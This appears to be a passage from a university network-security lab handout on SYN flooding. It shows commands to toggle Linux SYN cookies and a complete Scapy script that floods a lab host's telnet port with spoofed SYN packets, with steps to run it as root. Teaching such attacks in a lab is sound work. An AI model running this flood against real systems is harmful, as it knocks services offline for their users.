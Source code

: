 
- Display the __SYN__ cookie flag
    ```shell
    $ sudo sysctl -a | grep syncookies 
    ```

- Turn off __SYN__ cookies
    ```shell
    $ sudo sysctl -w net.ipv4.tcp_syncookies=0 
    ```

- Turn on __SYN__ cookies
    ```shell
    $ sudo sysctl -w net.ipv4.tcp_syncookies=1
    ```

### Task 1.1: Launching the Attack Using Python

I have provided a Python program called __synflood.py__. This code sends out spoofed TCP __SYN__ packets, with randomly generated source IP address, source port, and sequence number. You should use the code to launch the attack on the target machine:

__synflood.py__
```python
#!/bin/env python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits
from random import randint

ip = IP(dst="172.18.123.6")    # Attack cmsc334-1, port 23 the telnet port
tcp = TCP(dport=23, flags='S') # 'S' flag is for SYN packet
pkt = ip/tcp

# Continiously send synchronize (SYN) request, but don't answer the SYN/ACK.
while True:
    pkt[IP].src = "172.18.123." + str(randint(2, 254))  # source IP
    pkt[TCP].sport = getrandbits(16)                    # source port
    pkt[TCP].seq = getrandbits(32)                      # sequence number
    send(pkt, verbose = 0)
```

Let the attack run for at least one minute, then try to telnet into the victim machine, and see whether you can succeed.

```shell
$ chmod u+x synflood.py
$ sudo su
# ./synflood.py
```

In another terminal window `ssh cmsc334-2` then try telnet. 
```shell
$ telnet x-mcs-cmsc334-1
```
